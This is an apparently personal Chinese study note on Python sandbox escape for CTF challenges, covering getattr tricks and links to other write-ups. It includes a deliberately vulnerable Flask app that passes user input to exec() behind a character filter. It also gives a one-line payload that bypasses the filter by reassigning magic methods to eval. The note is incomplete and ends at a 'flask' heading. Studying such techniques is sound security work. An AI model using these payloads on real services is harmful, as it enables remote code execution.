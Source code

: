 # python 沙箱逃逸

在xman个人排位赛的时候第一次见到这种题

## 推荐网站

[https://www.k0rz3n.com/2018/05/04/Python%20%E6%B2%99%E7%9B%92%E9%80%83%E9%80%B8%E5%A4%87%E5%BF%98/](https://www.k0rz3n.com/2018/05/04/Python 沙盒逃逸备忘/)

[https://www.kingkk.com/2018/06/Flask-Jinja2-SSTI-python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/](https://www.kingkk.com/2018/06/Flask-Jinja2-SSTI-python-沙箱逃逸/)



 https://docs.python.org/zh-cn/3/reference/datamodel.html#object.__init__ 

## 关键函数

### getattr

`getattr`(*object*, *name*[, *default*])

返回对象命名属性的值。*name* 必须是字符串。如果该字符串是对象的属性之一，则返回该属性的值。例如， `getattr(x, 'foobar')` 等同于 `x.foobar`。如果指定的属性不存在，且提供了 *default* 值，则返回它，否则触发 [`AttributeError`](https://docs.python.org/zh-cn/3/library/exceptions.html#AttributeError)。

获得对象属性的值相当于拷贝对象属性的副本，如果这个对象的属性的值是一个函数呢？

fun=getattr(os,'system')则fun()=system()





## 过滤 (或)

利用魔术方法绕过，常见的如:`__eq__,__ne__,__getitem__...`

例如：

```python
from flask import Flask, request
app = Flask(__name__)

@app.route('/', methods=["POST"])
def security():
    secret = request.form["cmd"]
    for i in secret:
        if not 42 <= ord(i) <= 122: 
            print(i)
            return "error!"

    exec(secret)
    return "xXXxXXx"
```



```python
request.args.__class__.__getattr__=request.args.__class__.__getitem__;app.config.__class__.__eq__=eval;app.config==request.args.a;
```

## flask

url_for